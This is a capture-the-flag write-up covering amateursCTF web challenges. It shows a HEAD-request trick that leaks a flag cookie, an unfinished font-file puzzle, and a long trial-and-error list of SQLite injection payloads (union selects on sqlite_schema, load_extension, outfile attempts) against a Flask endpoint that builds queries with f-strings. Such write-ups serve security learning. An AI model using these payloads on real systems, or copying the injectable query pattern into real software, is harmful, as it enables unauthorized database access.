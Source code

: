 ## web/denied
- problem
![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/4ce1ae31-5215-4b63-a718-291dfc484dc5)
- on reaching the endpoint
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/12e69d4e-1bdd-425f-9f81-c5c5c2a66ed1)
- the given code
```
const express = require('express')
const app = express()
const port = 3000

app.get('/', (req, res) => {
  if (req.method == "GET") return res.send("Bad!");
  res.cookie('flag', process.env.FLAG ?? "flag{fake_flag}")
  res.send('Winner!')
})

app.listen(port, () => {
  console.log(`Example app listening on port ${port}`)
})

```
- so we must not use get method
- copied the curl request and made a post
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/3758a32d-8118-4002-baf0-3b2d75bebeda)
- the post method is not available
- so we see what options do we have
- we see get,head
- now from this https://reqbin.com/req/c-tmyvmbgu/curl-head-request-example
- we do send a head request
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/b8d0bda9-d3c4-4e25-a028-30c5a6b8e025)
```
C:\home\radha> curl http://denied.amt.rs/ -I     
HTTP/1.1 200 OK
Content-Length: 7
Content-Type: text/html; charset=utf-8
Date: Sat, 06 Apr 2024 05:37:48 GMT
Etag: W/"7-skdQAtrqJAsgWjDuibJaiRXqV44"
Server: Caddy
Set-Cookie: flag=amateursCTF%7Bs0_m%40ny_0ptions...%7D; Path=/
X-Powered-By: Express
```
- we got a cookie
- use url decoder
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/c1be76e1-43d2-4bc7-843b-90b6261f8924)
- we get the flag`amateursCTF{s0_m@ny_0ptions...}`
## web/agile-rut --not completed
- problem
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/c962a307-98b8-4f64-a8a4-e8964e8c45b2)
- the endpoint
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/1afebdb7-57e2-433e-9f85-aada7e3d7793)
- otf file  OpenType font format.
- https://docs.fileformat.com/font/otf/
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/eb110157-b1d8-4fe1-a052-8261aadd37ce)
```
C:\home\radha\Downloads\amertus_ctf\web\agile_rut> head *
OTTO
� CFF Ϋ�p�[GSUBЄ��d�rOS/2px
Qxcmap9�x��4head*Rv��6hhea���$hmtxo��maxphname��D}p-post� ت��_<�3{�3{���+���RhPh��������1�XXXX@  =��R����  "�)5'
�
```
- so type,name descripton
```
uint32	sfntVersion	0x00010000 or 0x4F54544F (‘OTTO’)
```
## web/one-shot
- problem
![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/3504a4c4-81b4-4a62-b96c-c056218cced4)
- sqlite3 https://www.digitalocean.com/community/tutorials/how-to-use-the-sqlite3-module-in-python-3
- in memory sqlite3 https://www.sqlite.org/inmemorydb.html
- support for concurrency https://stackoverflow.com/questions/393554/python-sqlite3-and-concurrency
- https://www.geeksforgeeks.org/python-re-search-vs-re-match/
```
import re
a=input("give id")
while(a!=0):
    if not re.match("[1234567890abcdef]{3}", a):
        print("invalid id")
    else:
        print("valid")
    a=input("give id")
```
- there is a issue with regular expression it is re.match
- so if we give exaclty 16 valid chars followed by anything it just accepts
```
@app.route("/search", methods=["POST"])
def search():
    id = request.form["id"]
    if not re.match("[1234567890abcdef]{16}", id):
        return "invalid id"
    searched = db.execute(f"SELECT searched FROM table_{id}").fetchone()[0]
    if searched:
        return "you've used your shot."

```
- so here id is user contolled
- i dont see any default tables with table_* in sqlite3
- we need to see what happens` searched = db.execute(f"SELECT searched FROM table_{id}").fetchone()[0]` when table does not exist
- `a%'union select 1/*` in /search gives internal servre err
- `a%'union select "1"/*`
- this does give output so there is sql injection
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/df4d2a1e-53de-4f99-b249-9683cca1866e)
- `a%';union select "1"/*` -internal sever er
- `a%'union select "1" from (DELETE FROM table_{id})/*` -500
- `a%'union select "1" from table_{id}/*` -500
- sqlite_schema
- https://www.sqlite.org/schematab.html
- `a%'union select name from sqlite_schema/*` this does give a lot of info
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/ace9ce66-2470-4753-8f09-966567c1c3ac)
- a%'union select name from sqlite_schema where name=table_{id}/*
-  a%'union select name from sqlite_schema where name LIKE 'table_%'/* --gives all tables with table_
- `a%'union select name from sqlite_schema where name LIKE 'table_{id}'/*` --does give our table
-  ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/f2f5b791-7cd1-4450-bc05-005762b6c41b)
-  a%'union select name from sqlite_schema where name LIKE 'table_'/*
-  a%'union select name from sqlite_schema where name LIKE 'table_{id}';select '111'/*
-  ` a%'union select password from table_{id}/*` --500
-  
-   ` a%'union select table_{id}/*` --500

- a%'union select password from table_{id}/*- 500
- INSERT INTO table (column1,column2 ,..) VALUES( value1,	value2 ,...)
- `SELECT name 
FROM (
    INSERT INTO mytable1 (col1, col2) 
    VALUES (val1, val2) 
    RETURNING name
) AS inserted_rows;
`
- a%'union select name from (INSERT INTO sqlite_schema(name) VALUES (1729) RETURNING name) /* 

- a%'union select name from sqlite_schema AND sleep(10)/*-500
- a%'union select name from sqlite_schema into outfile/*
- a%'union select load_file("flag.txt")/*-500
- a%'union select name from sqlite_schema into/*
- a%'union select name from sqlite_schema into outfile "./radha1.txt"/* -500
- a%'union select name from sqlite_schema into outfile "radha1.txt"/*-500
- a%'union select name from sqlite_schema into outfile 'radha1.txt'/*-500
- a%'union select name from sqlite_schema into outfile './radha1.txt'/*
### load_extension --not workign
- load_extension https://docs.python.org/3/library/sqlite3.html
-  Load the fulltext search extension
- con.execute("select load_extension('./fts3.so')")
a%'union select load_extension ('./flag.txt')/*
### close and open query
- a%'union select name from sqlite_schema/*
-  query = db.execute(f"SELECT password FROM table_{id} WHERE password LIKE '%{request.form['query']}%'")
-   a%'")\nquery=db.execute("select "1")/* -500
-   a%'union (select (create table radha(col1 text) as "1"/* -500
### select flag
- a%'union select "1"/*
- a%'union select table_{id}/*-500
- a%'union select {table_{id}}/* -500
- a%'union select {id}/* -500
- a%'union select @flag/*-500
- a%'union select @@flag/*-500
- a%'union select get_var('flag')/*-500
- a%'union select get_var("flag")/*-500
- a%'union select `2+2/`*-500
### https://sites.google.com/site/janbeck/cybersecurity-and-reverse-engineering-fun/ctf-sql-injection
### loadfile->select it
